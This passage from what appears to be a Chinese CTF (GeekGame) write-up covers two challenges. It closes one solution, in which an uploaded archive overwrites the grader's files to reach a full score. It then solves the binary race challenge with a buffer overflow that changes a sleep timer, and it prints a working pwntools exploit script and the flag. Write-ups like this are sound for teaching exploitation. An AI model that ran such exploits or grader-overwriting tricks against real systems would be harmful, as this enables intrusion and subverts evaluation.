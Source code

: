 第二阶段提示放出来才发现：啊？原来不需要实际达到吗？原来上传压缩包只是用来解第一问，跟后面两问没关系吗？writeup 里说可以额外提交一个 README.md，我提交了一下，没有发现 README.md 的任何作用，里面的内容也没有在任何地方显示，看来这个文件不是关键的。转念一想，该不会是压缩包里解压出的文件能把原本评测用文件替换掉吧？于是立刻试着把正常的 ICS datalab-handout 文件夹打包上传，居然真的达到满分，获得了 flag.

感觉这题在明确知道要利用压缩包之后还是挺简单的，可惜第一阶段没有多想。后面两个 flag 实在在我的知识盲区，于是就没有做。

----

## Binary

### Fast Or Clever ~#binary-racecar~

#### 题目描述

本挑战中，你不仅是个黑客，更是个赛车手。

你将展现杰出的控制能力，去控制赛场的设定。你将发挥挑战的精神，改变看似必然的失败。你**在线程交替中抢夺时间，**更快到达 Flag 所在的终点。

> So, are you fast enough… or clever enough… for this challenge?

#### 解题结果

|               flag 内容                |    解出时间    |
| :------------------------------------: | :------------: |
| flag{i_liK3_r4c3c4Rs_V3rY_Much_D0_y0u} | 10-12 13:19:57 |

#### 解题过程

这题还是挺简单的，漏洞也很明显。把二进制文件放到 cloud.binary.ninja 里一分析，发现程序在运行过程中开了两个线程，一个输出 flag，另一个允许用户进行输入。这两个线程共用同一个全局变量 size，输出 flag 的线程会检查用户输入的 size 不超过 4，但之后会刻意 usleep 一个 usleep_time 再进行输出，这是典型的 TOCTOU 问题。之后又看到线程执行前有一个输入，要求不超过 0x100 个字符，结果 read 系统调用那儿明晃晃地写着 0x104. 而读入数据的后面恰好就放着 usleep_time，因此 overflow 一下，改掉 usleep_time 就可以了。解题脚本如下：

```python
from pwn import *

p = process(['nc', 'prob11.geekgame.pku.edu.cn', '10011'])

print(p.recvuntil(b'input your token: ').decode(), end='')
p.sendline(b'... my token ...')

print(p.recvuntil(b'the size to output your flag: ').decode(), end='')
p.sendline(b'1')

print(p.recvuntil(b'the content to read to buffer (max 0x100 bytes): ').decode(), end='')
p.sendline(b'0' * 0x100 + (100000).to_bytes(4, 'little'))

print(p.recvuntil(b'the size to read to the buffer:').decode(), end='')
p.sendline(b'48')

while True:
    try:
    	print(p.recvline().decode())
    except EOFError:
        break
```

---

[2024:09:30:17:14:29]: Debug: --begin keyboard packet--